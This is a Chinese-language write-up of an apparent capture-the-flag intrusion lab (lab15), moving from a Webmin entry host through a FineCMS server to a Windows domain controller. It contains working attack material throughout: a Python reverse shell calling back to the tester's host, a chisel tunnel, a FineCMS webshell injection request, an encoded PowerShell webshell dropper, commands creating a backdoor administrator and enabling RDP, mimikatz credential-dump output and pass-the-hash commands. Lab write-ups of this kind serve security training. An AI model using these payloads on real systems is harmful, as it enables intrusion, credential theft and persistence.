

# lab15

:::info

场景介绍

> ATT&CK实战框架-lab15, 弱口令：root/test
>
> - linux渗透
> - 内网渗透
> - 多层代理
> - 横向移动
> - ATT&CK

:::

## 入口点

```plaintext
https://10.10.10.6:10000/
```

## 资产梳理

|      IP     |        Hostname       |
| :---------: | :-------------------: |
|  10.10.10.6 | localhost.localdomain |
|  10.20.30.7 | localhost.localdomain |
|  10.20.30.5 |         cslab         |
| 10.20.30.66 |           DC          |

## 入口机 - Webmin 1.910 - RCE

访问入口点的时候，可以在返回头中发现

```plaintext
Server: MiniServ/1.910
```

根据此特征，可以定位到 [roughiz/Webmin-1.910-Exploit-Script: Webmin 1.910 - Remote Code Execution Using Python Script](https://github.com/roughiz/Webmin-1.910-Exploit-Script)

:::info

经过我的反馈之后，终于给出了弱口令信息，不然原本的 Webmin 框架是有爆破口令速率限制的

:::

但是直接使用现有的漏洞是不可以的，会直接返回 `Perl execution failed`

换个思路，软件自带了一个 shell

先进入 webmin


进入自带的 Command Shell 功能


直接反弹 shell

```shell
python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.233.2",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

成功收到回连的 shell

```shell
┌──(randark㉿kali)-[~]
└─$ pwncat-vl -lp 9999
[22:59:33] Welcome to pwncat 🐈!
[22:59:56] received connection from 10.10.10.6:48518
[23:00:07] 0.0.0.0:9999: normalizing shell path
           10.10.10.6:48518: registered new host w/ db
(local) pwncat$ back
(remote) root@localhost.localdomain:/root# whoami
root
```

## flag - 1

```shell
(remote) root@localhost.localdomain:/root# cat flag.txt 
go-flag{9be80fa7-cfae-432f-a43e-ee90b59afabd}
```

## 入口机 信息收集

发现是双网卡机器

```shell
(remote) root@localhost.localdomain:/root# ifconfig 
ens3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.6  netmask 255.255.255.0  broadcast 0.0.0.0
        inet6 fe80::82dd:24ff:fee9:995  prefixlen 64  scopeid 0x20<link>
        ether 80:dd:24:e9:09:95  txqueuelen 1000  (Ethernet)
        RX packets 5638  bytes 642307 (627.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8004  bytes 8352174 (7.9 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens6: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.20.30.7  netmask 255.255.255.0  broadcast 0.0.0.0
        inet6 fe80::b293:5ff:fe56:b410  prefixlen 64  scopeid 0x20<link>
        ether b0:93:05:56:b4:10  txqueuelen 1000  (Ethernet)
        RX packets 1502  bytes 87605 (85.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8  bytes 656 (656.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 12092  bytes 1039500 (1015.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 12092  bytes 1039500 (1015.1 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

传个 fscan 扫描一下内网

```shell
(remote) root@localhost.localdomain:/root# ./fscan -h 10.20.30.0/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
(icmp) Target 10.20.30.7      is alive
(icmp) Target 10.20.30.5      is alive
(icmp) Target 10.20.30.66     is alive
[*] Icmp alive hosts len is: 3
10.20.30.5:3306 open
10.20.30.7:3306 open
10.20.30.66:445 open
10.20.30.5:445 open
10.20.30.66:139 open
10.20.30.5:139 open
10.20.30.66:135 open
10.20.30.5:135 open
10.20.30.5:80 open
10.20.30.7:22 open
10.20.30.66:88 open
10.20.30.5:88 open
10.20.30.5:8008 open
10.20.30.7:10000 open
[*] alive ports len is: 14
start vulscan
[*] NetInfo 
[*]10.20.30.66
   [->]DC
   [->]10.20.30.66
[*] OsInfo 10.20.30.5   (Windows Server 2016 Standard 14393)
[*] OsInfo 10.20.30.66  (Windows Server 2022 Standard 20348)
[*] NetInfo 
[*]10.20.30.5
   [->]cslab
   [->]10.20.30.5
[*] NetBios 10.20.30.5      cslab.cyberstrike.lab               Windows Server 2016 Standard 14393
[*] WebTitle https://10.20.30.7:10000  code:200 len:4564   title:Login to Webmin
[*] WebTitle http://10.20.30.5:88      code:500 len:1141   title:500 - 内部服务器错误。
[*] WebTitle http://10.20.30.5         code:200 len:703    title:IIS Windows Server
[*] WebTitle http://10.20.30.5:8008    code:200 len:22908  title:FineCMS公益软件
```

## 入口机 搭建代理

在 kali 上执行

```shell
┌──(randark㉿kali)-[~]
└─$ ./tools/chisel_v1.11.3/chisel_1.11.3_linux_amd64 server -p 1337 --reverse
2025/10/31 23:07:22 server: Reverse tunnelling enabled
2025/10/31 23:07:22 server: Fingerprint eQTjPEEvWFSqknjphieAOyTHbzdp7iONeDc96XWKr+0=
2025/10/31 23:07:22 server: Listening on http://0.0.0.0:1337
```

在入口机上启动代理会话

```shell
(remote) root@localhost.localdomain:/root# ./chisel_1.11.3_linux_amd64 client 172.16.233.2:1337 R:0.0.0.0:10000:socks &
[1] 5722
2025/10/31 23:08:08 client: Connecting to ws://172.16.233.2:1337
2025/10/31 23:08:08 client: Connected (Latency 39.75066ms)
```

## cslab - FineCMS

根据页脚信息，确定版本信息 `FineCMS公益软件 v5.1.0`

由于网站配置问题，现有的 `FineCMS` 文件上传漏洞都是无权限写入导致不可用


很明显，不是写入 webshell 这条路

sql 注入也是可以的，但是权限不是 root 也不好用

参考另外一个路子 [FineCMS v5.4.1 后台 getshell - \_昏鸦 - 博客园](https://www.cnblogs.com/hun-ya/p/9392211.html)

在修改后台域名的地方直接植入 webshell

```plaintext
POST /admin.php?c=site&m=config HTTP/1.1
Host: 10.20.30.5:8008
Content-Length: 1129
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://10.20.30.5:8008
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.20.30.5:8008/admin.php?c=site&m=config
Accept-Encoding: gzip, deflate, br
Cookie: 0d88345262358851601fdc63ed5a90d6_ci_session=3pdasfatukr4b6hv1mq90st82m7n8j5t; member_uid=1; member_cookie=385424efe0fa3a5a4655
Connection: keep-alive

page=1&data%5BSITE_CLOSE%5D=0&data%5BSITE_CLOSE_MSG%5D=%E7%BD%91%E7%AB%99%E5%8D%87%E7%BA%A7%E4%B8%AD....&data%5BSITE_NAME%5D=FineCMS&data%5BSITE_TIME_FORMAT%5D=Y-m-d+H%3Ai&data%5BSITE_LANGUAGE%5D=zh-cn&theme=0&data%5BSITE_THEME%5D=default&data%5BSITE_TEMPLATE%5D=default&data%5BSITE_TIMEZONE%5D=8&domain=localhost%3A8008'=>1).die(assert($_POST['cmd'])//&data%5BSITE_DOMAINS%5D=&data%5BSITE_REWRITE%5D=0&data%5BSITE_MOBILE_OPEN%5D=1&data%5BSITE_MOBILE%5D=&data%5BSITE_SEOJOIN%5D=_&data%5BSITE_TITLE%5D=FineCMS%E5%85%AC%E7%9B%8A%E8%BD%AF%E4%BB%B6&data%5BSITE_KEYWORDS%5D=%E5%85%8D%E8%B4%B9cms%2C%E5%BC%80%E6%BA%90cms&data%5BSITE_DESCRIPTION%5D=%E5%85%AC%E7%9B%8A%E8%BD%AF%E4%BB%B6%E4%BA%A7%E5%93%81%E4%BB%8B%E7%BB%8D&data%5BSITE_IMAGE_RATIO%5D=1&data%5BSITE_IMAGE_WATERMARK%5D=0&data%5BSITE_IMAGE_VRTALIGN%5D=top&data%5BSITE_IMAGE_HORALIGN%5D=left&data%5BSITE_IMAGE_VRTOFFSET%5D=&data%5BSITE_IMAGE_HOROFFSET%5D=&data%5BSITE_IMAGE_TYPE%5D=0&data%5BSITE_IMAGE_OVERLAY%5D=default.png&data%5BSITE_IMAGE_OPACITY%5D=&data%5BSITE_IMAGE_FONT%5D=default.ttf&data%5BSITE_IMAGE_COLOR%5D=&data%5BSITE_IMAGE_SIZE%5D=&data%5BSITE_IMAGE_TEXT%5D=
```

成功


由于这个方案植入的 webshell 还有问题，所以写入一个单独的 webshell

```shell
powershell -EncodedCommand WwBTAHkAcwB0AGUAbQAuAEkATwAuAEYAaQBsAGUAXQA6ADoAVwByAGkAdABlAEEAbABsAEIAeQB0AGUAcwAoACIAcwBoAGUAbABsAC4AcABoAHAAIgAsACAAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACIAUABEADkAdwBhAEgAQQBnAFEARwBWADIAWQBXAHcAbwBKAEYAOQBRAFQAMQBOAFUAVwB5AGQAaABKADEAMABwAEkARAA4ACsAIgApACkA
```


即可成功用蚁剑进行连接


## flag - 2

老位置



## cslab - 信息收集

开启个 rdp

```shell
net user randark Admin123### /add
net localgroup administrators randark /add
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=yes
net start termservice
```

成功连上


## cslab - hash

上传个 mimikatz 抓取一下

```shell
Using 'mimikatz.log' for logfile : OK

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 4055423 (00000000:003de17f)
Session           : RemoteInteractive from 2
User Name         : randark
Domain            : CSLAB
Logon Server      : CSLAB
Logon Time        : 2025/10/31 23:47:19
SID               : S-1-5-21-1569229255-3439354803-3019667840-1000
    msv :    
     [00000003] Primary
     * Username : randark
     * Domain   : CSLAB
     * NTLM     : 6e9901f8a9bd75ee67d75ba290581039
     * SHA1     : bc3b57cb317683e34f68114459d44f07b2b440e8
    tspkg :    
    wdigest :    
     * Username : randark
     * Domain   : CSLAB
     * Password : (null)
    kerberos :    
     * Username : randark
     * Domain   : CSLAB
     * Password : (null)
    ssp :    
    credman :    

Authentication Id : 0 ; 4023946 (00000000:003d668a)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/10/31 23:47:17
SID               : S-1-5-90-0-2
    msv :    
     [00000003] Primary
     * Username : CSLAB$
     * Domain   : CYBERSTRIKE
     * NTLM     : 305950dcf3677fc31893b65bad94999b
     * SHA1     : 4660155d6777adda67170782a06e4c07332c7e84
    tspkg :    
    wdigest :    
     * Username : CSLAB$
     * Domain   : CYBERSTRIKE
     * Password : (null)
    kerberos :    
     * Username : CSLAB$
     * Domain   : cyberstrike.lab
     * Password : 35 33 d5 18 22 f5 c7 26 8b 5d b9 27 38 31 ae b6 c3 db df a9 d2 75 3a 2a d4 60 0e c0 4e 26 63 9a 4a 75 66 95 a7 ce ab ce e5 03 4b 7f df 77 d4 c7 73 f5 18 7e 61 3d 90 82 d9 9e 93 e9 3f 47 65 28 65 b0 91 83 84 94 5f 2c 95 ff 0a ed 79 15 2b f7 d7 e0 d9 e4 70 25 ab 25 a2 0b 36 07 15 d6 ec 9e 6d 59 ac 27 72 5f 55 67 bc 4e 4c f7 98 14 4e 9a 6b 3d 92 4d fa d1 13 23 32 49 38 13 17 9d 67 b8 63 b9 af d6 cf 23 8d 98 d4 f6 8d dd d1 b0 64 f2 20 1f 5b 03 26 12 03 2e 2c d4 30 57 d8 fa fc 39 d7 e9 35 2a 6c fd d0 65 42 e9 e8 9b 61 ee 41 05 19 9c 58 65 cc 28 cb fd f2 9f 6d 98 11 3a 7b 77 5f ef 96 dc 73 c4 00 3a 59 97 26 84 f4 80 70 94 e5 7f 47 d7 be 58 aa 5f b0 cf 2c 26 72 6a 0c 4b d1 37 e4 82 fd b5 17 db cc 13 10 78 34 84 f1 cb 
    ssp :    
    credman :    

Authentication Id : 0 ; 51168 (00000000:0000c7e0)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/10/31 23:27:50
SID               : S-1-5-90-0-1
    msv :    
     [00000003] Primary
     * Username : CSLAB$
     * Domain   : CYBERSTRIKE
     * NTLM     : 305950dcf3677fc31893b65bad94999b
     * SHA1     : 4660155d6777adda67170782a06e4c07332c7e84
    tspkg :    
    wdigest :    
     * Username : CSLAB$
     * Domain   : CYBERSTRIKE
     * Password : (null)
    kerberos :    
     * Username : CSLAB$
     * Domain   : cyberstrike.lab
     * Password : 35 33 d5 18 22 f5 c7 26 8b 5d b9 27 38 31 ae b6 c3 db df a9 d2 75 3a 2a d4 60 0e c0 4e 26 63 9a 4a 75 66 95 a7 ce ab ce e5 03 4b 7f df 77 d4 c7 73 f5 18 7e 61 3d 90 82 d9 9e 93 e9 3f 47 65 28 65 b0 91 83 84 94 5f 2c 95 ff 0a ed 79 15 2b f7 d7 e0 d9 e4 70 25 ab 25 a2 0b 36 07 15 d6 ec 9e 6d 59 ac 27 72 5f 55 67 bc 4e 4c f7 98 14 4e 9a 6b 3d 92 4d fa d1 13 23 32 49 38 13 17 9d 67 b8 63 b9 af d6 cf 23 8d 98 d4 f6 8d dd d1 b0 64 f2 20 1f 5b 03 26 12 03 2e 2c d4 30 57 d8 fa fc 39 d7 e9 35 2a 6c fd d0 65 42 e9 e8 9b 61 ee 41 05 19 9c 58 65 cc 28 cb fd f2 9f 6d 98 11 3a 7b 77 5f ef 96 dc 73 c4 00 3a 59 97 26 84 f4 80 70 94 e5 7f 47 d7 be 58 aa 5f b0 cf 2c 26 72 6a 0c 4b d1 37 e4 82 fd b5 17 db cc 13 10 78 34 84 f1 cb 
    ssp :    
    credman :    

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : CSLAB$
Domain            : CYBERSTRIKE
Logon Server      : (null)
Logon Time        : 2025/10/31 23:27:49
SID               : S-1-5-20
    msv :    
     [00000003] Primary
     * Username : CSLAB$
     * Domain   : CYBERSTRIKE
     * NTLM     : 305950dcf3677fc31893b65bad94999b
     * SHA1     : 4660155d6777adda67170782a06e4c07332c7e84
    tspkg :    
    wdigest :    
     * Username : CSLAB$
     * Domain   : CYBERSTRIKE
     * Password : (null)
    kerberos :    
     * Username : cslab$
     * Domain   : CYBERSTRIKE.LAB
     * Password : (null)
    ssp :    
    credman :    

Authentication Id : 0 ; 4055394 (00000000:003de162)
Session           : RemoteInteractive from 2
User Name         : randark
Domain            : CSLAB
Logon Server      : CSLAB
Logon Time        : 2025/10/31 23:47:19
SID               : S-1-5-21-1569229255-3439354803-3019667840-1000
    msv :    
     [00000003] Primary
     * Username : randark
     * Domain   : CSLAB
     * NTLM     : 6e9901f8a9bd75ee67d75ba290581039
     * SHA1     : bc3b57cb317683e34f68114459d44f07b2b440e8
    tspkg :    
    wdigest :    
     * Username : randark
     * Domain   : CSLAB
     * Password : (null)
    kerberos :    
     * Username : randark
     * Domain   : CSLAB
     * Password : (null)
    ssp :    
    credman :    

Authentication Id : 0 ; 4023821 (00000000:003d660d)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/10/31 23:47:17
SID               : S-1-5-90-0-2
    msv :    
     [00000003] Primary
     * Username : CSLAB$
     * Domain   : CYBERSTRIKE
     * NTLM     : 305950dcf3677fc31893b65bad94999b
     * SHA1     : 4660155d6777adda67170782a06e4c07332c7e84
    tspkg :    
    wdigest :    
     * Username : CSLAB$
     * Domain   : CYBERSTRIKE
     * Password : (null)
    kerberos :    
     * Username : CSLAB$
     * Domain   : cyberstrike.lab
     * Password : 35 33 d5 18 22 f5 c7 26 8b 5d b9 27 38 31 ae b6 c3 db df a9 d2 75 3a 2a d4 60 0e c0 4e 26 63 9a 4a 75 66 95 a7 ce ab ce e5 03 4b 7f df 77 d4 c7 73 f5 18 7e 61 3d 90 82 d9 9e 93 e9 3f 47 65 28 65 b0 91 83 84 94 5f 2c 95 ff 0a ed 79 15 2b f7 d7 e0 d9 e4 70 25 ab 25 a2 0b 36 07 15 d6 ec 9e 6d 59 ac 27 72 5f 55 67 bc 4e 4c f7 98 14 4e 9a 6b 3d 92 4d fa d1 13 23 32 49 38 13 17 9d 67 b8 63 b9 af d6 cf 23 8d 98 d4 f6 8d dd d1 b0 64 f2 20 1f 5b 03 26 12 03 2e 2c d4 30 57 d8 fa fc 39 d7 e9 35 2a 6c fd d0 65 42 e9 e8 9b 61 ee 41 05 19 9c 58 65 cc 28 cb fd f2 9f 6d 98 11 3a 7b 77 5f ef 96 dc 73 c4 00 3a 59 97 26 84 f4 80 70 94 e5 7f 47 d7 be 58 aa 5f b0 cf 2c 26 72 6a 0c 4b d1 37 e4 82 fd b5 17 db cc 13 10 78 34 84 f1 cb 
    ssp :    
    credman :    

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2025/10/31 23:28:01
SID               : S-1-5-17
    msv :    
    tspkg :    
    wdigest :    
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    kerberos :    
    ssp :    
    credman :    

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2025/10/31 23:27:51
SID               : S-1-5-19
    msv :    
    tspkg :    
    wdigest :    
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    kerberos :    
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    ssp :    
    credman :    

Authentication Id : 0 ; 51149 (00000000:0000c7cd)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/10/31 23:27:50
SID               : S-1-5-90-0-1
    msv :    
     [00000003] Primary
     * Username : CSLAB$
     * Domain   : CYBERSTRIKE
     * NTLM     : 305950dcf3677fc31893b65bad94999b
     * SHA1     : 4660155d6777adda67170782a06e4c07332c7e84
    tspkg :    
    wdigest :    
     * Username : CSLAB$
     * Domain   : CYBERSTRIKE
     * Password : (null)
    kerberos :    
     * Username : CSLAB$
     * Domain   : cyberstrike.lab
     * Password : 35 33 d5 18 22 f5 c7 26 8b 5d b9 27 38 31 ae b6 c3 db df a9 d2 75 3a 2a d4 60 0e c0 4e 26 63 9a 4a 75 66 95 a7 ce ab ce e5 03 4b 7f df 77 d4 c7 73 f5 18 7e 61 3d 90 82 d9 9e 93 e9 3f 47 65 28 65 b0 91 83 84 94 5f 2c 95 ff 0a ed 79 15 2b f7 d7 e0 d9 e4 70 25 ab 25 a2 0b 36 07 15 d6 ec 9e 6d 59 ac 27 72 5f 55 67 bc 4e 4c f7 98 14 4e 9a 6b 3d 92 4d fa d1 13 23 32 49 38 13 17 9d 67 b8 63 b9 af d6 cf 23 8d 98 d4 f6 8d dd d1 b0 64 f2 20 1f 5b 03 26 12 03 2e 2c d4 30 57 d8 fa fc 39 d7 e9 35 2a 6c fd d0 65 42 e9 e8 9b 61 ee 41 05 19 9c 58 65 cc 28 cb fd f2 9f 6d 98 11 3a 7b 77 5f ef 96 dc 73 c4 00 3a 59 97 26 84 f4 80 70 94 e5 7f 47 d7 be 58 aa 5f b0 cf 2c 26 72 6a 0c 4b d1 37 e4 82 fd b5 17 db cc 13 10 78 34 84 f1 cb 
    ssp :    
    credman :    

Authentication Id : 0 ; 23230 (00000000:00005abe)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2025/10/31 23:27:48
SID               : 
    msv :    
     [00000003] Primary
     * Username : CSLAB$
     * Domain   : CYBERSTRIKE
     * NTLM     : 305950dcf3677fc31893b65bad94999b
     * SHA1     : 4660155d6777adda67170782a06e4c07332c7e84
    tspkg :    
    wdigest :    
    kerberos :    
    ssp :    
    credman :    

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : CSLAB$
Domain            : CYBERSTRIKE
Logon Server      : (null)
Logon Time        : 2025/10/31 23:27:48
SID               : S-1-5-18
    msv :    
    tspkg :    
    wdigest :    
     * Username : CSLAB$
     * Domain   : CYBERSTRIKE
     * Password : (null)
    kerberos :    
     * Username : cslab$
     * Domain   : CYBERSTRIKE.LAB
     * Password : (null)
    ssp :    
    credman :    

mimikatz # 
```

顺便跑个 adinfo

```shell
PS D:\_Tools> .\Adinfo_win.exe -d cyberstrike.lab -u CSLAB$ -H 305950dcf3677fc31893b65bad94999b --dc 10.20.30.66

           _____  _        __
     /\   |  __ \(_)      / _|
    /  \  | |  | |_ _ __ | |_ ___
   / /\ \ | |  | | | '_ \|  _/ _ \     Tools that collect information from domain
  / ____ \| |__| | | | | | || (_) |
 /_/    \_\_____/|_|_| |_|_| \___/     v1.5 by lzz

[i] Try to connect '10.20.30.66'
[c] Auth Domain: cyberstrike.lab
[c] Auth user: CSLAB$
[c] Auth hash: 305950dcf3677fc31893b65bad94999b
[c] connected successfully,try to dump domain info
[i] DomainVersion found!
                    [+] Windows 2019 Server operating system
[i] Domain SID:
                    [+] S-1-5-21-64854050-1587546430-3649469574
[i] Domain MAQ found
                    [+] 10
[i] Domain Account Policy found
                    [+] pwdHistory: 24
                    [+] minPwdLength: 7
                    [+] minPwdAge: 1(day)
                    [+] maxPwdAge: 42(day)
                    [+] lockoutThreshold: 0
                    [+] lockoutDuration: 10(min)
[i] Domain Controllers: 1 found
                    [+] DC$  ==>>>   Windows Server 2022 Standard  [10.0 (20348)]  ==>>>  10.20.30.66
[i] ADCS has not found!
[i] Domain Exchange Server: 0 found
[i] Domain All DNS:
                    [+] Domain Dns 2 found,Saved in All_DNS.csv
[i] Domain Trusts: 0 found
[i] SPN: 29 found
[i] Domain GPOs: 2 found
[i] Domain Admins: 1 users found
                    [+]Administrator
[i] Enterprise Admins: 1 users found
                    [+]Administrator
[i] administrators: 1 users found
                    [+]Administrator
[i] Backup Operators: 0 users found
[i] Users: 4 found
[i] User with Mail: 0 found
[i] Only_name_and_Useful_Users: 1 found
[i] Only_admincount=1_andUseful_Users: 1 found
[i] Locked Users: 0 found
[i] Disabled Users: 3 found
[i] Users with passwords not set to expire: 2 found
[i] Domain Computers: 2 found
[i] Only_name_and_Useful_computers: 2 found
[i] Groups: 48 found
[i] Domain OUs: 1 found
[i] LAPS Not found
[i] LAPS passwords: 0 found
[i] SensitiveDelegate Users: 0 found
[i] AsReproast Users: 0 found
[i] Kerberoast Users: 1 found
                    [+] CN=krbtgt,CN=Users,DC=cyberstrike,DC=lab  ==>>>  kadmin/changepw
[i] SIDHistory Users: 0 found
[i] CreatorSID Users: 0 found
[i] RBCD Users: 0 found
[i] Unconstrained Deligation Users: 0 found
[i] Constrained Deligation Users: 0 found
[i] Krbtgt password last set time: 2025-07-11 12:21:43 +0800 CST
[i] CSVs written to 'csv' directory in D:\_Tools
[i] Execution took 2.7696917s
```

## DC - 尝试

```shell
┌──(randark㉿kali)-[~]
└─$ proxychains nxc smb 10.20.30.66 -u CSLAB$ -H 305950dcf3677fc31893b65bad94999b -M smbghost
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
SMB         10.20.30.66     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:cyberstrike.lab) (signing:True) (SMBv1:True) 
SMB         10.20.30.66     445    DC               [+] cyberstrike.lab\CSLAB$:305950dcf3677fc31893b65bad94999b 
SMBGHOST    10.20.30.66     445    DC               Potentially vulnerable to SMBGhost (CVE-2020-0796)
```
